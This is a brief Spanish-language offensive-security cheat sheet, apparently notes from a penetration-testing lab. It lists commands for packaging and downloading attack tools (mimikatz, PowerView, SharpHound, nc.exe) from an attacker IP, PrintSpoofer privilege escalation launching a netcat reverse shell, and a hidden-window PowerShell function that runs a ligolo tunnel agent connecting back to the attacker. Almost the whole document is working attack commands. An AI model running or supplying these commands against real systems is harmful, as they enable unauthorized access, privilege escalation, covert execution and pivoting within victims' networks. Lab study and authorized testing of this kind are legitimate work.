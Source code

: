 
### Subir tools

- **Comprimir archivos en zip**

* Opcion 1:
```bash
cd fwindows/     # dentro de la carpeta que tiene todo
zip -r ../tools.zip * 
```

* Opcion 2:
```bash
zip -r tools.zip agent.exe nc.exe PrintSpoofer64.exe mimikatz.exe PowerView.ps1 SharpHound.ps1
```
---
```bash
iwr -uri http://192.168.45.152:8000/tools.zip -Outfile tools.zip
```
---
```bash
Expand-Archive tools.zip -DestinationPath .
```

### WPE

```powershell
.\PrintSpoofer64.exe -c "C:\Users\eric.wallows\Documents\nc.exe 192.168.45.152 4444 -e cmd"
```

### Ejecucion en segundo plano

* Funcion

```powershell
function bg_exec($cmd) {
    Start-Process -WindowStyle Hidden -FilePath "powershell.exe" -ArgumentList "-nop -w hidden -c $cmd"
}
```
* ligolo:
```powershell
bg_exec "C:\Users\eric.wallows\Documents\agent.exe -connect 192.168.45.152:11601 -ignore-cert"
```

### Automation Script:

```bash
. .\Executor.ps1
```

* help:

```bash
*Evil-WinRM* PS C:\Users\eric.wallows\Documents> . .\Executor.ps1 -h
=== Executor.ps1 Help ===
Funciones disponibles:
  Invoke-Ligolo -ip <IP> [-port 11601]
  Invoke-PrintSpoofer -ip <IP> [-port 4444]
  Invoke-WinPEAS [-outputPath <ruta>]
  Invoke-SharpHoundDump [-collection <tipo>]
```

#### ligolo listener

```bash
listener_add --addr <ip_destino:puerto> --to <ip_kali:puerto> --tcp
```



